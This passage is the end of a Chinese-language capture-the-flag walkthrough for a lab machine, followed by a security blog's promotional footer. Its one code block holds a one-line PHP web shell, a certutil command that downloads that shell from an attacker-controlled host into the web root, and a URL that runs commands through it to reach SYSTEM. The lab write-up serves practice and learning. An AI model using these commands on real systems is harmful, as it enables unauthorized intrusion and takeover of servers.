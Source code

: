 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOSibTqpjtp1NqHDVUkQXthZ9iciaKiatNWmOeHVYnnVMnsDwOdEic9rubmZO4GeBvicdSZaNEE4RXQ4rgQ/640?wx_fmt=png)

这里点 send 发送即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOSibTqpjtp1NqHDVUkQXthZuPQatTdxJF973aUBBibkribV6XBibSLRApQ2JsvDvq65dGcIG8B9D1EkA/640?wx_fmt=png)

成功获得低权用户 raziel 权限...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOSibTqpjtp1NqHDVUkQXthZ8c1lib3DXqnbTodubIrU4xgWx80E8RQ4Uk5ibCUFNicggXJLuoticorFgw/640?wx_fmt=png)

成功拿到 user.txt...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOSibTqpjtp1NqHDVUkQXthZhtEw3rBiaX8kyibJE41EIdFCZJkKUlX5sjgl1X7f8qZmG1FocwhibeFKQ/640?wx_fmt=png)

可以看到在其放一个反向 shell.php 即可提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOSibTqpjtp1NqHDVUkQXthZHbkYBQTvPBJDmZyspvuZEHSicYH1frCpzgLfmguBP73KD0FGFef4s4A/640?wx_fmt=png)

```
<?php system($_GET["cmd"]);
certutil -urlcache -split -f http://10.10.14.5/shell1.php c:\wamp64\www\shell1.php
http://10.10.10.71:8080/dayuroot.php?cmd=whoami
```

可以看到成功获得 system 权限...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOSibTqpjtp1NqHDVUkQXthZ6S0ENWTMp7r1TH9SPaM0cAVtyOfSUoN9q5bBmBQiaQm4EJ2xatoxTiaw/640?wx_fmt=png)

成功获得 root 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/zYxEsibHhhqHFXvQKic55dUSltLhKZhWS26N6nZiaz7TZhriaodk3GvvC5cnnSRwZR5f8TztGuKSBM7d2JMSl5iafcw/640?wx_fmt=png)

由于我们已经成功得到 root 权限查看 user.txt 和 root.txt，因此完成了靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_gif/IwSh4vCvtCmAiahWWBCD6uVshNlbtsZxyBFdtQH49ia9feSkCyicQ3mgkNnn0DJR5ZYicTLj7IYQquYbqzXp3Y5HQA/640?wx_fmt=gif)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)